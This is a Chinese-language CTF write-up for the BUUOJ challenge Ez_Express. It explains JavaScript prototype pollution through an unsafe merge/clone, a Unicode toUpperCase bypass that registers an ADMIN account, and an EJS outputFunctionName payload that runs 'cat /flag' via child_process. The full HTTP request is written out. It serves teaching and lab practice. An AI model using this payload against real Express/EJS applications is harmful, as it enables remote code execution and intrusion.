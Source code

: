 # [GYCTF2020]Ez_Express

[题目地址](https://buuoj.cn/challenges#[GYCTF2020]Ez_Express)

原型链污染我来了！

这题的登录注册界面有点奇怪，把账号密码输入后，点注册为注册相应账号，点登陆为登陆账号，竟然不是分开的。扫目录发现了www.zip，里面只有index.js有用。

```js
var express = require('express');
var router = express.Router();
const isObject = obj => obj && obj.constructor && obj.constructor === Object;
//merge和clone，看到这俩玩意就要注意了，有可能有原型链污染
const merge = (a, b) => {
  for (var attr in b) {
    if (isObject(a[attr]) && isObject(b[attr])) {
      merge(a[attr], b[attr]);
    } else {
      a[attr] = b[attr];
    }
  }
  return a
}
const clone = (a) => {
  return merge({}, a);
}
function safeKeyword(keyword) {
  if(keyword.match(/(admin)/is)) {
      return keyword
  }

  return undefined
}

router.get('/', function (req, res) {
  if(!req.session.user){
    res.redirect('/login');
  }
  res.outputFunctionName=undefined;
  res.render('index',data={'user':req.session.user.user});
});


router.get('/login', function (req, res) {
  res.render('login');
});



router.post('/login', function (req, res) {
  if(req.body.Submit=="register"){
    //要求注册时不能注册ADMIN账号
   if(safeKeyword(req.body.userid)){
    res.end("<script>alert('forbid word');history.go(-1);</script>") 
   }
    req.session.user={
      'user':req.body.userid.toUpperCase(), //这里转了大写，注意莫名其妙改大小写的地方大概率有问题
      'passwd': req.body.pwd,
      'isLogin':false
    }
    res.redirect('/'); 
  }
  else if(req.body.Submit=="login"){
    if(!req.session.user){res.end("<script>alert('register first');history.go(-1);</script>")}
    if(req.session.user.user==req.body.userid&&req.body.pwd==req.session.user.passwd){
      req.session.user.isLogin=true;
    }
    else{
      res.end("<script>alert('error passwd');history.go(-1);</script>")
    }
  
  }
  res.redirect('/'); ;
});
router.post('/action', function (req, res) {
    //前面注册时不能是admin，post访问action时又要admin，这个admin非登陆不可了
  if(req.session.user.user!="ADMIN"){res.end("<script>alert('ADMIN is asked');history.go(-1);</script>")} 
  //clone，原型链污染，我们登陆admin就是为了这个
  req.session.user.data = clone(req.body);
  res.end("<script>alert('success');history.go(-1);</script>");  
});
router.get('/info', function (req, res) {
    //注意整个程序提到outputFunctionName的地方只有这里和上面的res.outputFunctionName=undefined; 。所以正常情况下，outputFunctionName都会是undefined，我们获取不到什么东西
  res.render('index',data={'user':res.outputFunctionName});
})
module.exports = router;
```

刚开始的我并不知道什么是原型链污染，看到clone和merge一脸懵逼：哦，所以呢？直到我遇见了[wp](https://www.cnblogs.com/LEOGG321/p/13448463.html)。原来如此。原型链污染一定要看这篇[文章](https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html)，讲的非常清楚。关键点如下：

1. js的每一个类都有prototype属性，所有类的对象在实例化的时候将会拥有prototype中的属性和方法
2. js的每一个对象又有__proto__属性，指向这个对象所在的类的prototype属性

这里要区分开类和对象的概念。class A，是一个类；a=new A()，a是A的对象。其中，“所有类对象在实例化的时候将会拥有prototype中的属性和方法”这个特性被用来实现JavaScript中的继承机制。假如此时我们有一个对象a，调用其属性——比如b——时，js会顺着继承关系往上找，遵循以下步骤：（个人理解“继承关系”就是原型链）

1. 在对象a中寻找属性b
2. 如果找不到，则在a.__proto__中寻找b
3. 如果仍然找不到，则继续在a.\_\_proto\__.__proto__中寻找b
4. 依次寻找，直到找到null结束。比如，Object.prototype的__proto__就是null

不难看出，一个对象所有的属性为自己定义的属性和原型链上所有的属性。回到题目，outputFunctionName属性理论上只能是undefined，但是假如我们往原型链的上层设定一个outputFunctionName属性，这时值就不是undefined了，而是我们设定的东西。

clone函数基本等于merge函数，所以我们重点看merge函数怎么利用就好了。函数的实现很简单，就是把b类的键值对拷贝到A类去。诶？我们在b类里面构造个键值对"\_\_proto\_\_":{xxx}不就能污染对象a的原型链了吗？像下面这样？

```js
let o1 = {}
let o2 = {a: 1, "__proto__": {b: 2}}
merge(o1, o2)
console.log(o1.a, o1.b)
o3 = {}
console.log(o3.b)
```

发现并没有成功污染原型链。原来是`"__proto__": {b: 2}`中的__proto__并不是键值，js直接将它看作o2的原型了，遍历键取不到。解决办法是利用json。

```js
let o1 = {}
let o2 = JSON.parse('{"a": 1, "__proto__": {"b": 2}}')
merge(o1, o2)
console.log(o1.a, o1.b)

o3 = {}
console.log(o3.b)
```

JSON解析的情况下，__proto__会被认为是一个真正的“键名”，而不代表“原型”，所以在遍历o2的时候会存在这个键，于是成功污染原型链。学习后我们就准备好了，但是想实施攻击需要绕过登陆这一关。根据这篇[文章](https://www.cnblogs.com/20175211lyz/p/12659738.html)里写的js大小写特性，可以发现有如下利用方式：

- 对于toUpperCase():
> 字符"ı"、"ſ" 经过toUpperCase处理后结果为 "I"、"S"
- 对于toLowerCase():
> 字符"K"经过toLowerCase处理后结果为"k"(这个K不是K)

于是我们用admın注册，绕过safeKeyword后借助req.body.userid.toUpperCase()成功注册ADMIN账号。登陆后有个界面问我们最喜欢的语言。随便写点东西提交，抓包发现向action界面post了内容，格式形如`lua=c%23&Submit=`。这个部分无论我们传进什么东西都会根据地`req.session.user.data = clone(req.body);`处理，即传入的内容被放入clone中。这不就给我我们污染原型链的机会了吗？结合程序使用了ejs，参考这篇[文章](https://evi0s.com/2019/08/30/expresslodashejs-%e4%bb%8e%e5%8e%9f%e5%9e%8b%e9%93%be%e6%b1%a1%e6%9f%93%e5%88%b0rce/)，构造出命令执行漏洞：

- {"lua":"a","\_\_proto\__":{"outputFunctionName":"a=1;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag')//"},"Submit":""}

像下面一样发送post即可：

```
POST /action HTTP/1.1
Host: 8a87144e-12ac-42b5-9eb4-2f6c87a710b2.node4.buuoj.cn:81
Content-Length: 158
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://8a87144e-12ac-42b5-9eb4-2f6c87a710b2.node4.buuoj.cn:81
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://8a87144e-12ac-42b5-9eb4-2f6c87a710b2.node4.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: __gads=ID=f00405ef7dd07c2b-22e4cea8d3d90015:T=1673138658:RT=1673138658:S=ALNI_MaIBeJLfEQrPtxHvF5d_RvawAx58A; __gpi=UID=00000926669aa6ee:T=1673138658:RT=1673138658:S=ALNI_MaoW9zXWbCCtVgtccyGDCJIpcPeew; session=s%3AcMMbA-lDzbBOWBxdMM0bssOEZMmN4js8.unkJjbwH7OjYY0L9pKtH%2FM%2Fyoy94u7iHF%2FMFkzOYL6w
Connection: close

{"lua":"a","__proto__":{"outputFunctionName":"a=1;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag')//"},"Submit":""}
```

最后去info就能下载到flag了。

## Flag
> flag{14d0c4ac-1b81-4354-a45f-0d637f79b289}